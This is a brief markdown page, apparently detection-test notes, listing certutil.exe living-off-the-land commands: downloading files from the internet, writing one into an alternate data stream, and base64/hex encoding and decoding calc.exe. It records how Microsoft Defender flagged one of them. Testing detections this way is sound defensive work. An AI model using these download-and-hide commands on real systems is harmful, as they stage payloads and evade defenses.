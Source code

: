# Lolbas CertUtil

[Lolol Farm](https://lolol.farm/) is a project that groups all living of the land techniques. [Lolbas](https://lolbas-project.github.io/#) is specifically targetting Windows binaries. [Certutil](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil) is one of these binaries that can be abused.

## Download file from Internet Case 1

Test:

```Shell
certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe
```

This gets detected and prevented by Microsoft Defender but (16th of January 2025) instead of detecting the download using a lolbin it named the incident `Defender prevented execution of 'Trojan:Win/Ceprolad.A' in the command line ...`.
It tags it as a `low` priority event since it got prevented.

## Download file from Internet Case 2

Test:

```Shell
certutil.exe -verifyctl -f -split http://7-zip.org/a/7z1604-x64.exe 7zip.exe
```

## Download file from Internet and Save to alternate data stream

Test:

```
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Xiobe/Get-ShortcutsContent/refs/heads/main/Get-LNKShortcutsContent.ps1 c:\temp:ttt
```

## Encode a file

### Encode to a base64 encoded file

Test:

```
certutil -encode c:\windows\system32\calc.exe encoded_calc.exe
```

### Encode to a hexadecimal encoded file

Test:

```
certutil -encodehex c:\windows\system32\calc.exe encodedhex_calc.exe
```

## Decode a file

### Decode a base64 file

Test:

```
certutil -decode encoded_calc.exe decoded_calc.exe
```

### Decode a hexadecimal encoded file

Test:

```
certutil -decodehex encodedhex_calc.exe decodedhex_calc.exe
```
